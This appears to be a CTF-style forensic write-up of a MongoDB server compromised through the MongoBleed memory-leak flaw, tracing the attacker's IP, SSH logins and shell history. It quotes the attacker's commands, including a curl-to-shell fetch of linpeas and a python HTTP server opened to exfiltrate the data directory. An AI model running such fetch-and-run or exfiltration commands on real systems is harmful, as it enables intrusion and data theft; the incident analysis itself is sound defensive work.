

# MangoBleed



## Background Introduction

MongoBleed is a CVE discovered in December 2025. It is related to a popular NoSQL database, MongoDB, and is classified as `CVE-2025-14847` with high severity according to [cve.org](https://www.cve.org/CVERecord?id=CVE-2025-14847). 

> **Mismatched length** fields in Zlib compressed protocol headers may allow a read of uninitialized **heap memory** by an unauthenticated client. This issue affects all MongoDB Server v7.0 prior to 7.0.28 versions, MongoDB Server v8.0 versions prior to 8.0.17, MongoDB Server v8.2 versions prior to 8.2.3, MongoDB Server v6.0 versions prior to 6.0.27, MongoDB Server v5.0 versions prior to 5.0.32, MongoDB Server v4.4 versions prior to 4.4.30, MongoDB Server v4.2 versions greater than or equal to 4.2.0, MongoDB Server v4.0 versions greater than or equal to 4.0.0, and MongoDB Server v3.6 versions greater than or equal to 3.6.0.
> 

## File Analysis

To find which version the current version of MongoDB is used, I used strings to filter the word `mongo` and found that the version is `8.0.16`

```bash
└─$ find . -type f -exec strings {} \;|grep -i mongo
mongodbsync
??5?????? c /etc/mongod.conf
ii  mongodb-database-tools             100.14.0                                amd64        mongodb-database-tools package provides tools for working with the MongoDB server: 
ii  mongodb-mongosh                    2.5.10                                  amd64        MongoDB Shell CLI REPL Package
ii  mongodb-org                        8.0.16                                  amd64        MongoDB open source document-oriented database system (metapackage)
ii  mongodb-org-database               8.0.17                                  amd64        MongoDB open source document-oriented database system (metapackage)
ii  mongodb-org-database-tools-extra   8.0.17                                  amd64        Extra MongoDB database tools
ii  mongodb-org-mongos                 8.0.16                                  amd64        MongoDB sharded cluster query router
ii  mongodb-org-server                 8.0.16                                  amd64        MongoDB database server
ii  mongodb-org-shell                  8.0.16                                  amd64        MongoDB shell client
ii  mongodb-org-tools                  8.0.16                                  amd64        MongoDB tools
```

We can then find out where is the log file

```bash
└─$ find . -type f -name '*mongo*'|grep log                                                                                                                                                                                                
./[root]/var/log/mongodb/mongod.log
```

Upon reading it, I realize that the IP `65.0.76.43` is very suspicious. There are too many records(`75260` in total)

```bash
└─$ cat ./[root]/var/log/mongodb/mongod.log|grep 65.0.76.43|wc -l
75260
```

Using `head`, we can find the time of the first attack, which is `2025-12-29 05:25:52`

```bash
└─$ cat ./[root]/var/log/mongodb/mongod.log|grep 65.0.76.43|head -n 1
{"t":{"$date":"2025-12-29T05:25:52.743+00:00"},"s":"I",  "c":"NETWORK",  "id":22943,   "ctx":"listener","msg":"Connection accepted","attr":{"remote":"65.0.76.43:35340","isLoadBalanced":false,"uuid":{"uuid":{"$uuid":"099e057e-11c1-46ed-b129-a158578d2014"}},"connectionId":1,"connectionCount":1}}
```

To check attempts at remote access, we can look at`/var/log/auth.log`. I realized that ‘Accepted keyboard-interactive’ appears when a successful connection occurs, so I use grep to filter it

```bash
└─$ cat ./\[root\]/var/log/auth.log|grep  'Accepted keyboard-interactive'
2025-12-29T05:39:24.276756+00:00 ip-172-31-38-170 sshd[39825]: Accepted keyboard-interactive/pam for mongoadmin from 65.0.76.43 port 55056 ssh2
2025-12-29T05:40:03.475659+00:00 ip-172-31-38-170 sshd[39962]: Accepted keyboard-interactive/pam for mongoadmin from 65.0.76.43 port 46062 ssh2
2025-12-29T06:00:31.171853+00:00 ip-172-31-38-170 sshd[70457]: Accepted keyboard-interactive/pam for root from 119.73.124.129 port 24837 ssh2
```

The third result is our answer, because the first two almost disconnect instantly, which is probably caused by brute force tools, so the timestamp is `2025-12-29 05:40:03`

```bash
2025-12-29T05:40:03.475659+00:00 ip-172-31-38-170 sshd[39962]: Accepted keyboard-interactive/pam for mongoadmin from 65.0.76.43 port 46062 ssh2
2025-12-29T05:48:28.249844+00:00 ip-172-31-38-170 sshd[40027]: Received disconnect from 65.0.76.43 port 46062:11: disconnected by user
```

We can also check what commands the attack ran in `.bash_history` under `/home/mongoadmin`. The attacker used Linpeas for vulnerability scan, and the command is `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`

```bash
└─$ cat .bash_history                                                                                                                                                                                                                      
ls -la
whoami
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
cd /data
cd ~
ls -al
cd /
ls
cd /var/lib/mongodb/
ls -la
cd ../
which zip
apt install zip
zip
cd mongodb/
python3
python3 -m http.server 6969
exit

```

Finally we can see that the attacker go to `/var/lib/mongodb/`, and uses `zip` to exfiltrate the data
